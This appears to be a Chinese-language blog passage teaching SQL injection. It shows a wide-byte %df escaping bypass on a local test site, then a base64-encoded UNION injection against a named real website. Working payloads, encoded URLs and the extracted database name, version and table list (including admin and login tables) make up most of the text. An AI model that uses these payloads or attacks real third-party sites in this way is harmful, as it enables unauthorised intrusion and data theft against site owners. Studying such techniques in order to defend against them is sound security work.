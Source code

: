 ![1645161599431-ae19ab75-2b89-4e7f-96ac-bbde5e19a485.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132702184-903833173.png)

```plain
利用%df来进行绕过 
访问：http://127.0.0.1:8081/web/news.php?gtpl=simple%df' order by 17--+
执行的SQL语句：select * from sy_guestbook where gTpl='simple�\' order by 17-- '
�就会把后面的\占用了，从而绕过了转义
```

![1645161786536-89d2dc62-fc3f-41a3-9a0b-95343bf5ac5b.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132703186-630595389.png)

------

- 真实WEB-数据编码接受处理-base64注入

```plain
网站：knotsolutions.com/case_study_view.php?id=NA==
NA==是Base64加密类型 4
```

![1645155829166-157d6aa3-1f91-4cfe-b56c-3c5cfc49b8fc.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132703823-1545054473.png)

```plain
那么我们应该如何注入呢？
注入语句：4 and 1=2 union select 1,2,3
经过base64编码后：http://knotsolutions.com/case_study_view.php?id=NCBhbmQgMT0yIHVuaW9uIHNlbGVjdCAxLDIsMw==
```

![1645156448923-6a16a621-9ecc-4cd0-a0ef-d443ea52d8eb.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132703599-1074025817.png)

```plain
进行数据猜解：4 and 1=2 union select 1,database(),version()
进行编码：http://knotsolutions.com/case_study_view.php?id=NCBhbmQgMT0yIHVuaW9uIHNlbGVjdCAxLGRhdGFiYXNlKCksdmVyc2lvbigp
记录database的值：knotwebdb
```

![1645156627878-fe2021bd-311b-44c1-96dc-c4fafa19de0c.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132703130-1780466164.png)



```plain
判断版本高于5.0，就可以用information_schema进行查询。
查询knotwebdb下的表明信息：
4 and 1=2 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='knotwebdb'
编码后：
http://knotsolutions.com/case_study_view.php?id=NCBhbmQgMT0yIHVuaW9uIHNlbGVjdCAxLGdyb3VwX2NvbmNhdCh0YWJsZV9uYW1lKSwzIGZyb20gaW5mb3JtYXRpb25fc2NoZW1hLnRhYmxlcyB3aGVyZSB0YWJsZV9zY2hlbWE9J2tub3R3ZWJkYic=
记录一下查询到的表：
admin,careers,casestudy,imguploads,ipadd,loginip,page,slider,socialmedia
```

![1645157742948-62c652cc-2e0e-4a7c-9cce-a52b472b758c.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132703814-1519210503.png)
